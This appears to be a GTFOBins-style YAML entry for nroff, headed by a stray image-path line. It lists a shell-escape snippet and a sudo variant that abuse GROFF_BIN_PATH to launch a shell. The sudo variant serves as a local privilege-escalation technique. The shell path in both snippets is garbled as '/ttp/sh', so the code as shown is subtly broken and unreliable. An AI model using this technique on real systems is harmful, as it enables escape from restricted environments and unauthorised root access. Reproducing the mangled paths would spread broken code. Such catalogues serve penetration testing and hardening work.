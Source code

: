 ```yaml
---
functions:
  shell:
    - code: |
        TF=$(mktemp -d)
        echo '#!/ttp/sh' > $TF/groff
        echo '/ttp/sh' >> $TF/groff
        chmod +x $TF/groff
        GROFF_BIN_PATH=$TF nroff
  sudo:
    - code: |
        TF=$(mktemp -d)
        echo '#!/ttp/sh' > $TF/groff
        echo '/ttp/sh' >> $TF/groff
        chmod +x $TF/groff
        sudo GROFF_BIN_PATH=$TF nroff
---
```

